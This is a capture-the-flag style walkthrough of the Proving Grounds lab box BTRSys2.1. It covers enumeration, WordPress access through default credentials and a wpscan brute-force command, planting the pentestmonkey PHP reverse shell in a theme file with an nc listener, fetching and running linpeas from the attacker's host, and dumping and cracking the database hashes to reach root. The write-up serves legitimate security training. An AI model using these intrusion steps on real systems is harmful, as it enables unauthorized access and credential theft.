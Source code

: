 ```yaml
---
title: "[Practice] Proving Grounds: BTRSys2.1"
---
```


This is a write up for the box BTRSys2.1 on proving grounds. It's a part of the get to work series and is a free to play box that is Linux based.

## Enumeration
---
Starting off by kicking off autorecon to enumerate the services running off the box.

If you do not use autorecon I have left the basic nmap scripts that are essentially being executed.

``` bash
nmap -vv --reason -Pn -A --osscan-guess --version-all -p- $ip
```
```
Nmap scan report for 192.168.162.50
Host is up, received user-set (0.021s latency).
Scanned at 2021-10-11 17:55:47 EDT for 54s
Not shown: 65532 closed ports
Reason: 65532 resets
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.49.162
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 5
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 08:ee:e3:ff:31:20:87:6c:12:e7:1c:aa:c4:e7:54:f2 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDKrYYWK3Xv2EBb0KryPAargHdeVdVuGj+AHTUbH1CyLIuQ3zbtaq2+lr5K/aMqiJ5othz27+RWSJ2NmQ2JeOUBCogFLikCwU6MRDQLHpV+neS3fAKrH5fNnXo+RfnMWBLQaaXBPiUOQaoQc27hRN3SJ1hbVLEF65TY0siTrOj0Lt8SRztwkbfynHEKxMsQi5WWDLTgS7bivCf9VVWwqgmuBbsJAqFExDjLxlxJpH4+93bgEtD9EPV/KKO9B3Inaz8PxC+zXZofhZXloysYoGg4IZzT55JzrRVRuv/cbGcMuGTBpCCkdH01G4NCSgL7YwX13C1Qc+EFX1QExV6k1ePD
|   256 ad:e1:1c:7d:e7:86:76:be:9a:a8:bd:b9:68:92:77:87 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFTsqff4O0hsl+RUR2lXFcbCEkvFcspHALA2RR2DpoD2AlRN/DEpIbW3NETNXxxyKHTtGhUiBSUuw8S9RSBAsnY=
|   256 0c:e1:eb:06:0c:5c:b5:cc:1b:d1:fa:56:06:22:31:67 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIH91w++CdkbeAkmXYietVhD/73nEaXR/nbeBEyuwLwgq
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_Hackers
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Aggressive OS guesses: Linux 3.11 - 4.1 (95%), Linux 4.4 (95%), Linux 3.16 (94%), Linux 3.13 (92%), Linux 3.10 - 3.16 (92%), Linux 3.10 - 3.12 (91%), Linux 2.6.32 (91%), Linux 3.2 - 3.8 (91%), Linux 3.8 (91%), WatchGuard Fireware 11.8 (91%)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=10/11%OT=21%CT=1%CU=43495%PV=Y%DS=2%DC=T%G=Y%TM=6164B3
OS:19%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=10A%TI=Z%II=I%TS=8)SEQ(SP=
OS:102%GCD=1%ISR=10A%TI=Z%TS=8)OPS(O1=M506ST11NW7%O2=M506ST11NW7%O3=M506NNT
OS:11NW7%O4=M506ST11NW7%O5=M506ST11NW7%O6=M506ST11)WIN(W1=7120%W2=7120%W3=7
OS:120%W4=7120%W5=7120%W6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M506NNSNW7%CC=Y%Q
OS:=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=N)T5(R=Y%DF=
OS:Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=N)T7(R=N)U1(R=Y%DF=N%T=40%IPL=1
OS:64%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)
```

Nmap Summary:
- Port 21 FTP
- Port 22 SSH
- Port 80 HTTP

After noticing we have port 80 open I immediately go to the page and we find nothing interesting in the page source. It's basically just a gif. 

<img src="/assets/resources/btrsys2.1/home_page.png">

(Autorecon already did some directory busting btw saving me time see command below)

```
feroxbuster -u http://192.168.162.50:80 -t 10 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x "txt,html,php,asp,aspx,jsp" -v -k
```

I review the feroxbuster report and notice that we have the findings below:

```
Relevant Findings
403       11l       32w      302c http://192.168.162.50/server-status
301        9l       28w      317c http://192.168.162.50/upload
301        9l       28w      320c http://192.168.162.50/wordpress
```

We now know the server is running wordpress so we can begin to browse this page for a potential login page. I am going to start wpscan on it since it can help quickly enumerate version numbers and any plugins that might be on vulnerable.

Nothing crazy came up from the wpscan findings so I go ahead and see that there is a wp-login page though present on the site.

I tried some quick default credentials and was able to get in on the first try with: admin:admin

Lucky guess usually its the first one I try. If you didnt try this we would be able to use wpscan to bruteforce our way in!

We know admin is a valid user to btw since there was some information disclosure when trying to Login.


```bash
wpscan --url <ip> --usernames admin --passwords /usr/share/wordlists/rockyou.txt
```
<img src="/assets/resources/btrsys2.1/wordpress_user_disclosure.png">

## Exploitation
---
Now that we are actually in the wordpress admin portal we can play around with some of the settings. I noticed that there aren't any crazy unusual plugins that we can modify and wpscan didn't really give us that much helpful information either.

I do know however that the server is running apache which is able to execute php code.

We have the ability to edit the themes (Appearance > Theme Editor) php files so we can easily replace the code with malicious php that can be used as a reverse shell.

I will be using the pentest monkey reverse shell which can be found here > https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

Editing the pentestmonkey php file
<img src="/assets/resources/btrsys2.1/pentest_monkey.png">

Replacing the contents of 404.php
<img src="/assets/resources/btrsys2.1/php_replaced.png">

Just download the file edit variables $ip and $port to the IP of your attack box and the port you want to listen for a connection on.

Now after we replaced the 404.php file like shown in the screenshot we will be starting a nc listener on port 1234

```
nc -nvlp 1234
```

To execute the shell we have to browse to the themes directory where 404.php is stored. If you do not know where the 404.php page would be located we can github the template being used then find it there.

Typically its in this directory: /wp-content/themes/twentyfourteen/404.php for future reference

<img src="/assets/resources/btrsys2.1/reverse_shell_execution.png">


## Privilege Escalation
---

Once we are in we have a dumb shell without a proper tty

We can use python to update it

First I checked to see which version we have

Confirmed we have python3 installed

Fixed our tty issue using:
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

<img src="/assets/resources/btrsys2.1/tty_fix.png">

Going to automate a lot of the manual commands such as looking at /etc/passwd, /etc/crontab and looking for passwords as well as SUID SGUID with linpeas

going over to the /tmp folder

hosting a webserver on my kali box in the directory im hosting linpeas using updog

updog -p 80

Now I will download the file to the machine using wget

```
wget $ip/linpeas.sh

chmod +x linpeas.sh

./linpeas.sh
```
Reading the linpeas.sh output here are a lot of the things I am looking for:
Kernel Exploit? No
Capability? No
SGID/SUID? No
Credentials? Yes

We found the following credentials in the mkasdklnasd file we can use it to connect to a mysql db.

<img src="/assets/resources/btrsys2.1/db_password.png">

Commands Used to connect to DB:

```
mysql -u root -p rootpassword!

showdatabases;

use wordpress;

show tables;

select * from wp_users;
```

After viewing the wp_users table we notice that we get hashses for root and admin.

I used crackstation to crack them and got the following results:

root:roottoor
admin:admin

Example:
<img src="/assets/resources/btrsys2.1/root_hash_cracked.png">

Now that we have the root password all we have to do is switch to the root user.

```
www-data@ubuntu:/home/btrisk$ su root                                                                                                                                              
su root                                                                                                                                                                            
Password: roottoor                                                                                                                                                                 
                                                                                                                       
```                                                                                                                                                                              

We have now succesfully rooted this box!
